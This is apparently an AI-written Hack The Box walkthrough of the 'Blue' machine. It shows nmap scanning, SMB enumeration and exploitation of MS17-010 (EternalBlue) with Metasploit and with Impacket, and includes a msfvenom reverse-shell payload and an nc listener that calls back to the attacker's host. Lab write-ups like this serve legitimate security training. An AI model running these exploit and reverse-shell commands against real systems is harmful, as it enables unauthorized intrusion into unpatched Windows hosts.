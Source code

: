 # 🧊 HTB: Blue Walkthrough

# 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- **OS**: Windows 7 Professional SP1 (x64)
- **Difficulty**: Easy
- **Exploit**: MS17-010 (ETERNALBLUE)
- **Privilege Escalation**: Not needed – initial shell is SYSTEM 🎯

---

## 🧭 Recon

### 🔍 Full TCP Port Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.40
```

### 🎯 Targeted Script & Version Detection
```bash
nmap -p 135,139,445 -sCV -oA scans/nmap-tcpscripts 10.10.10.40
```

**Open Ports:**
- `135` (MS RPC)
- `139` (NetBIOS)
- `445` [SMB](SMB)
- Several in `49152-49157`

### 🛑 Vulnerability Check for MS17-010
```bash
nmap -p 445 --script vuln -oA scans/nmap-smbvulns 10.10.10.40
```

Output confirms:
```
VULNERABLE: Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
```

---

## 📁 SMB Enumeration

### 🧭 Guest Enumeration
```bash
smbmap -H 10.10.10.40 -u "0xdf" -p "0xdf"
```

### 🔎 Check Shares with `smbclient`
```bash
smbclient //10.10.10.40/share
smbclient //10.10.10.40/users
```

> Both readable, but no interesting files – just default folders.

---

## 💣 Exploitation – EternalBlue via Metasploit

### 🚀 Use Exploit Module
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.40
set LHOST 10.10.14.14
run
```

> ✅ Successful shell as `NT AUTHORITY\SYSTEM`

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### 🔄 Drop to Shell
```bash
meterpreter > shell
```

---

## 🏁 Flags

```bash
C:\Users\haris\Desktop> type user.txt
4c546aea************************

C:\Users\Administrator\Desktop> type root.txt
ff548eb7************************
```

---

## 🐍 Optional – Exploit with Python (for OSCP-like scenarios)

### ⚙️ Setup Python2 VirtualEnv for Impacket
```bash
sudo apt install virtualenv
cd /opt
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
virtualenv impacket-venv -p $(which python2)
source impacket-venv/bin/activate
pip install -r requirements.txt
pip install .
```

### 📦 Payload Generation
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f exe -o rev.exe
```

### 📤 Exploit Execution
```bash
python send_and_execute.py 10.10.10.40 rev.exe
```

### 🎧 Catch the Shell
```bash
rlwrap nc -lnvp 443
```

---

## 🧠 Lessons Learned

- MS17-010 is still widely useful in legacy environments.
- Metasploit is stable for this exploit, but Python tools offer good practice for manual setups.
- Always check for anonymous access and vulnerable SMB services.
- No privilege escalation needed: initial shell is SYSTEM.

---

Let me know if you'd like this exported as a Markdown or PDF report, or if you'd like to chain all walkthroughs into one HTB notebook! 📘💼